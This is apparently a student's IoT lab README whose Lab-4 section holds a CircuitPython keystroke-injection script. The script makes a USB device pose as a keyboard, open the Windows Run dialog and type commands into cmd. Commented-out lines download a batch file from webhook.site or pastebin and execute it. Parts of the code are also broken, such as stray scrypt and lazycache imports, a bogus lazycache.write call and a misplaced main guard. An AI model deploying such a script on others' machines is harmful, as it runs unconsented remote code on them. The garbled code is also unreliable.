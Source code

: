 # IoT-Lab
repo for presenting progress of Labolatories 
## Lab-1
### all rooms are marked as done:
![image](https://github.com/Vojtaz27/IoT-Lab/assets/62818302/1a1621d5-8dea-4fc1-ab9f-62a2e41c7f45)

## Lab-4
'''python

      #import webbrowser
      from hashlib import scrypt
      from linecache import lazycache
      import time
      import os
      import usb_hid
      import supervisor
      from adafruit_hid.keycode import Keycode
      from adafruit_hid.keyboard import Keyboard
      from adafruit_hid.keyboard_layout_us import KeyboardLayoutUS
      
      ascii = bytes(range(32, 127)).decode()
      
      timerBreakShort = 1.0
      timerBreakLong = 1.0
      
      keyboard = Keyboard(usb_hid.devices)
      layout = KeyboardLayoutUS(keyboard)
      
      def attack():
         keyboard.send(Keycode.WINDOWS, Keycode.R)
         time.sleep(timerBreakShort)
         # Program donwloads code and executes it in cmd.
         #text = "start-process \"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe\" https://www.youtube.com/watch?v=dQw4w9WgXcQ"
        
         #os.system('cmd /c "curl parrot.live"')
         text = "ssh movie.gabe565.com"
         #text = "curl ascii.live/donut"
         #text = "curl parrot.live"
         #text = "curl -s https://webhook.site/f9fe1e9f-557c-4261-a27c-03da55599cf3 -o C:/Users/Student/Desktop/wirus.bat & C:/Users/Student/Desktop/wirus.bat"
         text = text.replace('"', '')
         layout.write(f'cmd /D /K "{text}"\n')
      
        # url = "https://pastebin.com/raw/mPSBVtdF"
        # scrypt = "banana.bat"
        # layout.write(f'cmd \n')
        # time.sleep(1.0)
        # layout.write(f'curl {url} -o {scrypt}\n')
        # time.sleep(1.0)
        # layout.write(f'{scrypt}\n')
        # time.sleep(1.0)
        # lazycache.write('type secret.txt\n')
      
        if __name__ == "__main__":
           attack()
         
'''
